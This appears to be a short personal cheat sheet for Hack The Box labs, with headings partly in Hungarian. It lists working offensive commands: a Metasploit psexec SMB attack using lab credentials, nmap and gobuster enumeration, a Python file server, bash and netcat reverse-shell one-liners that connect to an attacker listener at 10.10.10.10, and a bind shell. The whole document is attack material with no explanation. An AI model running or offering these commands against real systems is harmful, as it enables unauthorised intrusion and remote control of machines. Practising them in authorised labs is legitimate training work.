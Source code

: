 
MSF SMB:
```shell
msfconsole
search exploit/windows/smb/psexec
use 0
set Rhosts 10.129.108.248
set LHOST 10.10.14.109
set LHOST 10.10.16.121
set SMBUser htb-student
set SMBPass HTB_@cademy_stdnt!
exploit
```
Alap parancsok:
nmap:
```shell
nmap -sCV 10.10.11.77
```
Wget python
```shell
python3 -m http.server 8000
```
Dir gobuster
```shell
gobuster dir -u http://dev.linkvortex.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -o dev_linkvortex_htb_gobuster
```
Subdomain gobuster
```shell
gobuster vhost -u http://linkvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -r -o linkvortex_subdomain_gobuster
```
reverseshell:
```shell
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```shell
nc -lvnp 1234
```
bindshell:
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash i 2>&1|nc -lvp 1234 >/tmp/f
```

```shell
nc 10.10.10.1 1234
```
